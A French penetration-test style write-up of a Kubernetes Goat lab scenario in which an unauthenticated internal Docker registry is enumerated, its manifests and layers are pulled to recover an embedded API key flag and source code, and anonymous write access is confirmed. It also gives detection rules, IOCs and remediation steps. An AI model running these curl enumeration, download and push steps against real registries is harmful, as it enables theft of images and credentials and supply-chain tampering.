




# SC-CLD-005 — Attacking Private Registry

## Classification

| Champ | Valeur |
|-------|--------|
| **Code scénario** | SC-CLD-005 |
| **Nom** | Attacking Private Registry — Unauthenticated Container Image Exfiltration & Supply Chain |
| **Cible** | Service `poor-registry-service` (port 5000) → Docker Registry v2 sans authentification |
| **VLAN** | 30 — Cloud Lab (192.168.30.0/24) |
| **Sévérité** | 🔴 Critique |
| **CVSS 3.1** | 9.8 (AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H) |
| **CWE** | CWE-306 (Missing Authentication for Critical Function), CWE-312 (Cleartext Storage of Sensitive Information), CWE-829 (Inclusion of Functionality from Untrusted Control Sphere) |
| **MITRE ATT&CK** | T1552.001 (Unsecured Credentials: Credentials in Files), T1525 (Implant Internal Image), T1213 (Data from Information Repositories) |
| **Flag** | `k8s-goat-cf658c56a501385205cc6d2dafee8fc1` |
| **Date** | 21 février 2026 |
| **Auteur** | Nadyr Chouarhi (hik3nR00t) |

---

## Résumé exécutif

### Pour un recruteur
Ce test démontre qu'un **registre d'images Docker privé déployé sans authentification** dans un cluster Kubernetes permet à un attaquant d'**exfiltrer toutes les images de production**, d'**extraire des secrets** (clés API, credentials) cachés dans les layers Docker et les variables d'environnement, et de **pousser des images backdoorées** qui seront déployées par le pipeline CI/CD. L'attaque ne nécessite aucun identifiant — une simple requête HTTP suffit. C'est une attaque de type **supply chain** : l'attaquant compromet la source des images, pas les applications elles-mêmes.

### Pour un auditeur ISO 27001 / NIS2
Non-conformité A.5.17 (Informations d'authentification), A.8.24 (Utilisation de la cryptographie), A.8.25 (Cycle de vie de développement sécurisé), A.8.9 (Gestion de la configuration). Le registre Docker interne est déployé sans mécanisme d'authentification, permettant un accès anonyme en lecture **et en écriture** à toutes les images de conteneurs. Les variables d'environnement des images contiennent des clés API en clair (violation A.8.24). L'absence de signature d'image et de politique d'admission autorise le déploiement d'images non vérifiées (violation A.8.25).

### Pour un RSSI
Impact maximal : un attaquant avec un accès réseau au cluster peut exfiltrer le code source de toutes les applications conteneurisées, extraire des credentials (API key GitHub découverte dans l'image `k8s-goat-users-repo`), et injecter des images malveillantes dans le registre. Le registre accepte les opérations d'écriture (PUT) sans authentification, ce qui signifie qu'un attaquant peut remplacer une image légitime par une version backdoorée. Tout pod redéployé ou redémarré tirera automatiquement l'image compromise. Remédiation immédiate : activer l'authentification sur le registre, migrer vers un registre géré (Harbor, ECR, GCR) avec signature d'image obligatoire.

---

## Diagramme réseau réel (IPs / Services)



---

## Kill Chain



---

## Scope & méthodologie

- **Périmètre** : Service `poor-registry-service` (ClusterIP 10.43.177.200:5000), namespace `default`
- **Approche** : Post-exploitation — l'attaquant a un accès réseau au cluster (pod compromis, accès VLAN, ou développeur malveillant). Reconnaissance du réseau interne puis exploitation du registre.
- **Outils** : curl, tar, jq
- **Référentiel** : OWASP Docker Security, CIS Docker Benchmark, MITRE ATT&CK Containers Matrix

---

## Phase 1 — Reconnaissance réseau

### Contexte d'accès

Ce scénario est une **phase de post-exploitation**. L'attaquant dispose d'un accès réseau au cluster via l'un des vecteurs suivants :
- Pod compromis dans le cluster (via SC-CLD-001/002/003)
- Accès au VLAN 30 depuis le réseau interne de l'entreprise
- Développeur ou prestataire malveillant avec accès kubectl

### Découverte des services internes

Un attaquant ayant accès au réseau cluster scanne les services Kubernetes pour identifier des cibles internes non exposées à l'extérieur :

```bash
# Scan des ports courants de registre Docker
nmap -p 5000 10.43.0.0/16 --open 2>/dev/null | grep -B4 "open"
```

Alternative : interroger l'API Kubernetes si un token est disponible (cf. SC-CLD-004) :

```bash
# Depuis un pod compromis avec accès API
curl -sk -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/api/v1/namespaces/default/services | \
  grep -i registry
```

**Résultat :** Le service `poor-registry-service` est identifié sur `10.43.177.200:5000`.

### Identification du service

```bash
$ curl -s http://10.43.177.200:5000/v2/
{}
```

**Analyse :** Le endpoint `/v2/` retourne un JSON vide avec un code `200 OK` — c'est la signature d'un **Docker Registry API v2** fonctionnel. L'absence de réponse `401 Unauthorized` confirme qu'**aucune authentification n'est configurée**.

---

## Phase 2 — Énumération du registre

### Listing des images disponibles

```bash
$ curl -s http://10.43.177.200:5000/v2/_catalog
{"repositories":["madhuakula/k8s-goat-alpine","madhuakula/k8s-goat-users-repo"]}
```

**Résultat :** 2 images stockées dans le registre privé.

### Listing des tags

```bash
$ curl -s http://10.43.177.200:5000/v2/madhuakula/k8s-goat-alpine/tags/list
{"name":"madhuakula/k8s-goat-alpine","tags":["latest"]}

$ curl -s http://10.43.177.200:5000/v2/madhuakula/k8s-goat-users-repo/tags/list
{"name":"madhuakula/k8s-goat-users-repo","tags":["latest"]}
```

**Analyse :** Chaque image a un seul tag `latest`. Le registre expose l'API complète sans restriction — un attaquant peut énumérer toutes les images, tags, et metadata.

---

## Phase 3 — Extraction de secrets depuis le manifest

### Récupération du manifest de l'image users-repo

```bash
$ curl -s http://10.43.177.200:5000/v2/madhuakula/k8s-goat-users-repo/manifests/latest
```

**Données critiques dans le manifest (extrait `v1Compatibility`):**

```json
{
  "config": {
    "Env": [
      "PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "LANG=C.UTF-8",
      "GPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568",
      "PYTHON_VERSION=3.8.3",
      "API_KEY=k8s-goat-cf658c56a501385205cc6d2dafee8fc1"
    ],
    "Cmd": ["python", "/app.py"],
    "Labels": {
      "INFO": "Kubernetes Goat",
      "MAINTAINER": "Madhu Akula"
    }
  }
}
```

**Analyse critique :** La clé API est stockée **en clair dans les variables d'environnement du Dockerfile** (`ENV API_KEY=...`). Cette information est inscrite dans le manifest de l'image — elle est accessible à quiconque peut lire le registre, sans même télécharger les layers. C'est l'équivalent de stocker un mot de passe dans le code source.

### Extraction du flag

```
API_KEY=k8s-goat-cf658c56a501385205cc6d2dafee8fc1
```

---

## Phase 4 — Extraction du code source depuis les layers

### Identification de la layer applicative

Le manifest contient 18 layers. La plupart sont des layers `throwaway` (configuration, ENV, CMD). La layer qui contient le code source est identifiable par la commande `COPY file:... in /app.py` :

```
"Cmd": ["/bin/sh -c #(nop) COPY file:a109d84041ae62b3f721067aff3fdc1c912bc941b117d50626c46090cc9450c7 in /app.py "]
```

**Layer cible :** `sha256:536ef5475913f0235984eb7642226a99ff4a91fa474317faa45753e48e631bd0`

### Téléchargement et extraction

```bash
$ curl -s -o layer-app.tar.gz \
  http://10.43.177.200:5000/v2/madhuakula/k8s-goat-users-repo/blobs/sha256:536ef5475913f0235984eb7642226a99ff4a91fa474317faa45753e48e631bd0

$ mkdir -p /tmp/layer-app && tar xzf layer-app.tar.gz -C /tmp/layer-app
$ find /tmp/layer-app -type f
/tmp/layer-app/app.py
```

### Analyse du code source

```python
#!/usr/bin/python3
# Author: Madhu Akula
# This program has been created as part of Kubernetes Goat
# User repositories information using API
import requests
import json
import sys
import os

def get_repo_details(user_name):
    API_KEY = os.environ['API_KEY']
    headers = {'secret-api-key': API_KEY}
    r = requests.get("https://api.github.com/users/" + user_name + "/repos", headers=headers)
    return print(json.dumps(r.json(), indent=2))

def main():
    print("Welcome to users repo information")
    if len(sys.argv) != 2:
        print("Usage: python main.py madhuakula")
        sys.exit(1)
    user_name = sys.argv[1]
    get_repo_details(user_name)

if __name__ == "__main__":
    main()
```

**Analyse du code :**
1. L'application utilise `API_KEY` depuis les variables d'environnement pour authentifier des requêtes vers l'API GitHub
2. Le header `secret-api-key` est envoyé à chaque requête — cette clé donne potentiellement accès aux repos privés GitHub de l'entreprise
3. Le paramètre `user_name` est injecté directement dans l'URL sans validation — vulnérabilité SSRF potentielle vers l'API GitHub

---

## Phase 5 — Vérification de l'accès en écriture (Supply Chain)

### Test de push

```bash
$ curl -s -X PUT \
  http://10.43.177.200:5000/v2/test-rw/manifests/latest \
  -H "Content-Type: application/json" \
  -d '{}'
{"errors":[{"code":"MANIFEST_INVALID","message":"manifest invalid","detail":{}}]}
```

**Analyse critique :** Le registre retourne `MANIFEST_INVALID` (le manifest est vide, ce qui est normal) — **pas `401 Unauthorized` ni `403 Forbidden`**. Le registre accepte les opérations d'écriture sans authentification. Un attaquant peut :

1. **Remplacer une image existante** par une version backdoorée (même tag `latest`)
2. **Injecter une nouvelle image** dans le registre
3. **Tout pod redéployé** tirera automatiquement l'image compromise

C'est le vecteur d'attaque le plus dangereux : une **supply chain attack interne**. L'attaquant ne compromet pas les applications en cours d'exécution — il compromet la **source** des déploiements futurs.

---

## Données exfiltrées

| Donnée | Source | Valeur | Criticité |
|--------|--------|--------|-----------|
| **API_KEY (flag)** | Manifest ENV `k8s-goat-users-repo` | `k8s-goat-cf658c56a501385205cc6d2dafee8fc1` | 🔴 Critique |
| **Code source app.py** | Layer `sha256:536ef5...` | Application Python complète | 🟠 Élevé |
| **Catalogue d'images** | `/v2/_catalog` | 2 images de production | 🟡 Moyen |
| **Architecture des images** | Manifests | OS, Python version, dépendances, commandes de build | 🟡 Moyen |
| **Email du maintainer** | Labels image | `Madhu Akula` | 🟡 Moyen |
| **GPG Key ID** | ENV Python base | `E3FF2839C048B25C084DEBE9B26995E310250568` | 🟢 Faible |
| **Accès en écriture** | PUT `/v2/test-rw/manifests` | Push autorisé sans auth | 🔴 Critique |

---

## Impact technique

Un attaquant exploitant ce registre non protégé obtient :

1. **Exfiltration complète du code source** — Toutes les images peuvent être téléchargées layer par layer, permettant de reconstruire l'intégralité du code source, des fichiers de configuration et des secrets embarqués.

2. **Credentials en clair** — Les variables d'environnement définies avec `ENV` dans le Dockerfile sont inscrites en permanence dans le manifest. La clé API GitHub découverte donne accès aux repositories privés de l'entreprise.

3. **Supply chain attack** — L'accès en écriture au registre permet de remplacer des images légitimes par des versions backdoorées. Tout redéploiement, scaling ou restart de pod tirera automatiquement l'image compromise. Le reverse shell, le crypto miner ou l'exfiltration de données s'exécutera dans le contexte du pod légitime.

4. **Reconnaissance approfondie** — L'analyse des layers révèle les versions exactes des dépendances (Python 3.8.3, pip 20.1.1), permettant d'identifier des CVE exploitables dans les composants utilisés.

---

## Impact métier — MediaTech Groupe SA

### Estimation financière

| Impact | Estimation | Justification |
|--------|-----------|---------------|
| **Supply chain attack** | 2 000 000 € à 8 000 000 € | Images backdoorées déployées en production → compromission de toutes les applications conteneurisées |
| **Exfiltration code source** | 500 000 € à 2 000 000 € | Propriété intellectuelle volée, analyse de vulnérabilités facilitée |
| **Compromission API GitHub** | 200 000 € à 1 000 000 € | Accès aux repos privés, vol de code propriétaire, injection de code malveillant |
| **Amende RGPD** | 500 000 € à 4 000 000 € | Si les images contiennent des données personnelles ou des accès vers des bases de données |
| **Investigation forensique** | 150 000 € à 400 000 € | Audit de toutes les images, vérification d'intégrité, analyse des déploiements |
| **TOTAL estimé** | **3 350 000 € à 15 400 000 €** | |

### Matrice de risque



### Impact réglementaire

- **RGPD** — Violation des articles 5(1)(f) (intégrité et confidentialité), 32 (mesures techniques). Les credentials stockées en clair dans les images Docker et l'absence d'authentification sur le registre violent les obligations de protection des données.
- **NIS2** — Non-conformité Article 21 (sécurité de la chaîne d'approvisionnement). Un registre Docker en lecture/écriture libre est un vecteur direct de supply chain attack.
- **ISO 27001** — Non-conformité A.5.17 (Informations d'authentification), A.8.24 (Cryptographie), A.8.25 (Développement sécurisé), A.8.9 (Gestion de la configuration).

---

## Détection SOC / SIEM

### Logs exploitables

| Source | Log | Indicateur |
|--------|-----|------------|
| **Registry Access Log** | `GET /v2/_catalog` | Énumération des images disponibles |
| **Registry Access Log** | `GET /v2/*/manifests/*` | Lecture des manifests (extraction metadata) |
| **Registry Access Log** | `GET /v2/*/blobs/*` | Téléchargement de layers (exfiltration) |
| **Registry Access Log** | `PUT /v2/*/manifests/*` | Push d'image (supply chain attack) |
| **Kubernetes Audit Log** | Accès au service `poor-registry-service` | Requêtes vers le registre interne |
| **Network Logs** | Trafic massif vers ClusterIP `10.43.177.200:5000` | Exfiltration de layers volumineuses |

### Règles Sigma

```yaml
# Sigma Rule 1 — Énumération d'un registre Docker
title: Docker Registry Catalog Enumeration
id: sc-cld-005-001
status: experimental
description: Détecte l'accès au endpoint _catalog d'un registre Docker interne
logsource:
    category: webserver
    product: docker-registry
detection:
    selection:
        cs-uri-stem|contains: '/v2/_catalog'
    condition: selection
level: high
tags:
    - attack.discovery
    - attack.t1213
falsepositives:
    - Outils de monitoring de registre légitimes
    - CI/CD pipelines vérifiant les images disponibles
---

# Sigma Rule 2 — Téléchargement massif de layers Docker
title: Mass Docker Image Layer Download from Registry
id: sc-cld-005-002
status: experimental
description: Détecte le téléchargement de multiples layers depuis un registre Docker interne indiquant une exfiltration d'images
logsource:
    category: webserver
    product: docker-registry
detection:
    selection:
        cs-uri-stem|contains: '/v2/'
        cs-uri-stem|contains: '/blobs/sha256:'
    condition: selection | count() > 5
    timeframe: 10m
level: critical
tags:
    - attack.collection
    - attack.t1213
    - attack.exfiltration
---

# Sigma Rule 3 — Push non autorisé vers un registre Docker
title: Unauthorized Docker Image Push to Internal Registry
id: sc-cld-005-003
status: experimental
description: Détecte une opération de push (PUT) vers un registre Docker interne depuis une source non identifiée comme pipeline CI/CD
logsource:
    category: webserver
    product: docker-registry
detection:
    selection:
        cs-method: 'PUT'
        cs-uri-stem|contains: '/v2/'
        cs-uri-stem|contains: '/manifests/'
    filter:
        cs-source-ip|cidr:
            - '10.43.0.0/16'
    condition: selection
level: critical
tags:
    - attack.persistence
    - attack.t1525
```

### Règle Falco

```yaml
- rule: Unauthorized Access to Internal Docker Registry
  desc: Détecte l'accès au registre Docker interne depuis un pod non autorisé
  condition: >
    evt.type in (connect) and
    fd.sport = 5000 and
    fd.sip = "10.43.177.200" and
    not container.name in (ci-pipeline, image-scanner, harbor-core)
  output: >
    WARNING: Unauthorized registry access detected
    (container=%container.name pod=%k8s.pod.name
     src=%fd.cip dst=%fd.sip:%fd.sport)
  priority: WARNING
  tags: [k8s, registry, supply_chain, T1525]
```

### Indicateurs de compromission (IOC)

| Type | Valeur | Description |
|------|--------|-------------|
| **API call** | `GET /v2/_catalog` | Énumération du registre |
| **API call** | `GET /v2/*/manifests/latest` | Lecture des secrets dans les manifests |
| **API call** | `GET /v2/*/blobs/sha256:*` | Exfiltration des layers |
| **API call** | `PUT /v2/*/manifests/*` | Injection d'image (supply chain) |
| **Credential** | `k8s-goat-cf658c56a501385205cc6d2dafee8fc1` | API key exfiltrée |
| **Service** | `10.43.177.200:5000` | Registre Docker sans authentification |
| **Pod** | `poor-registry-deployment-7ddb4d4c4-kwfp8` | Pod hébergeant le registre |
| **Image** | `madhuakula/k8s-goat-users-repo:latest` | Image contenant des credentials |

---

## Remédiation — Secure by Design

### Immédiat (24h) — Stopper l'exposition

1. **Activer l'authentification** sur le registre Docker. Configuration minimale avec htpasswd :

```yaml
# docker-compose.yml du registry
version: '3'
services:
  registry:
    image: registry:2
    environment:
      REGISTRY_AUTH: htpasswd
      REGISTRY_AUTH_HTPASSWD_PATH: /auth/htpasswd
      REGISTRY_AUTH_HTPASSWD_REALM: "Registry Realm"
    volumes:
      - ./auth:/auth
```

```bash
# Générer le fichier htpasswd
htpasswd -Bbn admin $(openssl rand -base64 32) > auth/htpasswd
```

2. **Révoquer l'API_KEY compromise** — La clé `k8s-goat-cf658c56a501385205cc6d2dafee8fc1` doit être considérée comme volée.

3. **Vérifier l'intégrité des images** — Comparer les digests SHA256 des images actuelles avec les versions connues :

```bash
# Lister les digests actuels
curl -s http://10.43.177.200:5000/v2/madhuakula/k8s-goat-users-repo/manifests/latest \
  -H "Accept: application/vnd.docker.distribution.manifest.v2+json" | sha256sum
```

### Court terme (1 semaine) — Migration et hardening

4. **Migrer vers un registre sécurisé** — Harbor (open source, recommandé) ou un registre cloud géré (ECR, GCR, ACR) :

```bash
# Déploiement Harbor via Helm
helm repo add harbor https://helm.goharbor.io
helm install harbor harbor/harbor \
  --set expose.type=clusterIP \
  --set externalURL=https://registry.hikenroot.local \
  --set harborAdminPassword=$(openssl rand -base64 32) \
  --set persistence.enabled=true
```

5. **Supprimer les credentials des variables d'environnement Docker**. Utiliser des secrets Kubernetes injectés au runtime :

```dockerfile
# MAUVAIS — credential dans l'image
ENV API_KEY=k8s-goat-cf658c56a501385205cc6d2dafee8fc1

# BON — injection via secret K8s au runtime
# Dockerfile sans credential
CMD ["python", "/app.py"]
```

```yaml
# Secret K8s injecté au déploiement
apiVersion: v1
kind: Pod
spec:
  containers:
  - name: app
    env:
    - name: API_KEY
      valueFrom:
        secretKeyRef:
          name: github-api-key
          key: api-key
```

6. **Implémenter une Network Policy** pour restreindre l'accès au registre aux seuls pods CI/CD :

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: restrict-registry-access
  namespace: default
spec:
  podSelector:
    matchLabels:
      app: poor-registry
  policyTypes:
  - Ingress
  ingress:
  - from:
    - podSelector:
        matchLabels:
          role: ci-pipeline
    ports:
    - port: 5000
```

### Moyen terme (1 mois) — Architecture sécurisée

7. **Signature d'images** avec Cosign (Sigstore) — Garantir l'intégrité et la provenance :

```bash
# Signer une image
cosign sign --key cosign.key registry.hikenroot.local/app:latest

# Vérifier avant déploiement
cosign verify --key cosign.pub registry.hikenroot.local/app:latest
```

8. **Admission Controller** avec Kyverno pour bloquer les images non signées :

```yaml
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: verify-image-signature
spec:
  validationFailureAction: Enforce
  rules:
  - name: verify-cosign-signature
    match:
      any:
      - resources:
          kinds:
          - Pod
    verifyImages:
    - imageReferences:
      - "registry.hikenroot.local/*"
      attestors:
      - entries:
        - keys:
            publicKeys: |-
              -----BEGIN PUBLIC KEY-----
              ...
              -----END PUBLIC KEY-----
```

9. **Scanner les images** avec Trivy dans le pipeline CI/CD :

```bash
# Scan de vulnérabilités et secrets
trivy image --severity HIGH,CRITICAL registry.hikenroot.local/app:latest
trivy image --scanners secret registry.hikenroot.local/app:latest
```

10. **Rotation automatique des credentials** via HashiCorp Vault + External Secrets Operator.

---

## Architecture cible sécurisée



---

## Comparaison — Vulnérable vs Sécurisé

| Aspect | Configuration vulnérable | Configuration sécurisée |
|--------|--------------------------|------------------------|
| **Authentification** | Aucune (anonyme lecture + écriture) | OIDC/LDAP obligatoire (Harbor) |
| **Credentials** | `ENV API_KEY=...` dans le Dockerfile | Vault / K8s Secrets injection runtime |
| **Intégrité images** | Aucune vérification | Cosign signature + Kyverno admission |
| **Accès réseau** | Tout le cluster peut accéder | Network Policy → CI/CD uniquement |
| **Scan de sécurité** | Aucun | Trivy vulns + secrets dans pipeline |
| **Accès en écriture** | Ouvert à tous | RBAC par projet (Harbor) |
| **Audit** | Aucun log | Registry access logs → Wazuh SIEM |

---

## Statistiques réelles

| Source | Statistique | Année |
|--------|-------------|-------|
| Sysdig Container Security Report | 75% des images de conteneurs contiennent des vulnérabilités HIGH ou CRITICAL | 2024 |
| Red Hat State of K8s Security | 59% des incidents K8s causés par des misconfigurations | 2024 |
| Aqua Security | 50% des registres Docker trouvés exposés sur Internet n'ont aucune authentification | 2024 |
| GitGuardian | 23.8 millions de secrets exposés dans des artefacts publics (images Docker incluses) | 2025 |
| IBM Cost of a Data Breach | Supply chain attacks coûtent en moyenne 4.76M$ par incident | 2024 |

---

## Références

| Référence | Lien |
|-----------|------|
| MITRE ATT&CK T1525 — Implant Internal Image | https://attack.mitre.org/techniques/T1525/ |
| MITRE ATT&CK T1552.001 — Credentials in Files | https://attack.mitre.org/techniques/T1552/001/ |
| CWE-306 — Missing Authentication for Critical Function | https://cwe.mitre.org/data/definitions/306.html |
| CWE-312 — Cleartext Storage of Sensitive Information | https://cwe.mitre.org/data/definitions/312.html |
| Docker Registry API v2 | https://docs.docker.com/registry/spec/api/ |
| Harbor — Cloud Native Registry | https://goharbor.io/ |
| Cosign — Container Signing | https://github.com/sigstore/cosign |
| Trivy — Container Scanner | https://github.com/aquasecurity/trivy |
| Kyverno — Policy Engine | https://kyverno.io/ |
| CIS Docker Benchmark | https://www.cisecurity.org/benchmark/docker |

---

*HikenRoot Forge — SC-CLD-005 — hik3nR00t — Février 2026*
